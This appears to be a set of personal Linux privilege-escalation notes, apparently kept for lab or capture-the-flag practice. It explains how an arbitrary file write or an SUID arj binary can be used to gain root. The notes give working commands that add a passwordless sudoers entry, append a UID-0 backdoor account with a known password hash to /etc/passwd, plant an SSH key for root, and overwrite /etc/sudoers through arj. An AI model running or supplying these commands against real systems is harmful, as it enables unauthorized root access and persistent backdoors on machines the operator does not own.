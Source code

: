 # PE Notes

# Arbitrary File Write

If you have the ability to write to files, you could do 3 things.

1. add your user (or all users) to `etc/sudoers` , effectively giving yourself ability to `sudo su -` into root user

```jsx
$cat /etc/sudoers
-- snip --
##
## User privilege specification
##
root ALL=(ALL) ALL

--snip -- 
# Defaults targetpw  # Ask for the password of the target user
# ALL ALL=(ALL) ALL  # WARNING: only use this together with 'Defaults targetpw'

## Read drop-in files from /etc/sudoers.d
@includedir /etc/sudoers.d

virusspec ALL=(ALL) ALL
yourusername ALL=(ALL) NOPASSWD:ALL # optionally, have no password requirement
```

1. You can add your privileged user to `/etc/passwd`. This will allow you to `su` to the privileged user or SSH in (although might not be able to due to SSH configuration)

```jsx
echo 'virusspec:$1$virusspe$4YouPJf89m7D8Nk48Qvjn.:0:0::/root:/bin/bash' >> /etc/passwd # virusspec:pass123
```

1. You can add your public ssh key to `/root/.ssh/authorized_keys`. This one doesn’t always work since there isn’t always a `.ssh` directory.

# SUID on /usr/bin/ajr

### read a file (/etc/sudoers)

```bash
arj a sudoers /etc/sudoers
arj p sudoers
# output will be contents of /etc/sudoers

# write to the file
arj a new ./sudoers # modified sudoers file
arj e new.arj /etc/ # this will replace /etc/sudoers
```

```bash
# create archive
arj a <file.arj-to-create> <file-to-add-to-archive>

# test archive
arj l <file.arj>

# extract archive
# will extract in current dir
arj e <file.arj>
# extract in specified dir
arj x <file.arj> <path-to-extract-to>
```